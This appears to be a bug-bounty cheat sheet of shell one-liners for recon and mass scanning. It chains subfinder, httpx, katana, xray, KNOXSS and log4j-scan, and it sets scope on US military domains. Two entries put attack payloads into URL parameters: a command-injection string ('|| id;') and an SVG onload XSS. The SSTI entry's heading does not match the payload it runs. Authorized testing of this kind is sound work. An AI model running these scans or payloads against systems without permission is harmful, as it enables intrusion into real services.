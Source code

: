###  BBRF SCOPE DoD

```bash
bbrf inscope add '*.af.mil' '*.osd.mil' '*.marines.mil' '*.pentagon.mil' '*.disa.mil' '*.health.mil' '*.dau.mil' '*.dtra.mil' '*.ng.mil' '*.dds.mil' '*.uscg.mil' '*.army.mil' '*.dcma.mil' '*.dla.mil' '*.dtic.mil' '*.yellowribbon.mil' '*.socom.mil'
```
### Xray Oneliner
```bash
xargs -a urls.txt -I@ sh -c './xray webscan --plugins cmd-injection,sqldet,xss --url "@" --html-output vuln.html'

```

###  Katana crawling

```bash
subfinder -d hackerone.com -silent -all | httpx -silent | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)'
subfinder -d hackerone.com -silent -all | httpx -silent | katana -d 5 -silent -em js,jsp,json
```


###  Scan All domains using Knoxss
- [Explained command]
```bash
echo "dominio" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss.me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIDOKNOXSS\""}' | sh 
```


###  Scan All github repo ORG
- [Explained command]
```bash
docker run --rm  mswell/masstrufflehog -o paypal

```

###  Scan log4j using BBRF and log4j-scan
- [Explained command](https://bit.ly/3IUivk9)
```bash
bbrf domains | httpx -silent | xargs -I@ sh -c 'python3 http://log4j-scan.py -u "@"'
```

###  SSTI in qsreplase add "{{7*7}}" (0xJin)

```bash
cat subdomains.txt | httpx -silent -status-code | gauplus -random-agent -t 200 | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080

```

###  urldedupe bhedak
- [Explained command]
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```
